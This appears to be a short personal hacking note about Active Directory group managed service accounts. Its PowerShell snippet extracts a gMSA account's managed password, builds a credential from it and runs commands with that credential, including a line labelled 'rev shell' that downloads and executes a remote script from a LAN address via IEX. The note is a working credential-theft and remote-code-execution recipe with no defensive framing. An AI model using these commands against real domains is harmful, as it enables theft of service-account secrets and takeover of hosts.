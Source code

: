 # active directory get GMSA service account properties get GMSA password and run commands
```powershell
# get password
$gmsa = Get-AdServiceAccount AccountUsername -properties msDS-ManagedPassword
$mp = $gmsa.'msDS-ManagedPassword'
# get secure string
$secpwd = (ConvertFrom-AdManagedPasswordBlob $mp).SecureCurrentPassword
$cred = New-Object System.Management.Automation.PSCredential('AccountUsername', $secpwd)
# test command
Invoke-Command -Computer 127.0.0.1 -Credential $cred -ScriptBlock { whoami }
# rev shell
Invoke-Command -Computer 127.0.0.1 -Credential $cred -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://192.168.1.69/rev.ps1') }
```

# References
- [20221003150486](/zet/20221003150486/) active directory get GMSA service account properties
- [20221003150484](/zet/20221003150484/) active directory get GMSA service account properties get GMSA password and run commands fix missing ConvertFrom-AdManagedPasswordBlob
- ~/kb/hacking/powershell/powershell-enumeration-commands.md

Tags:
    #assorted

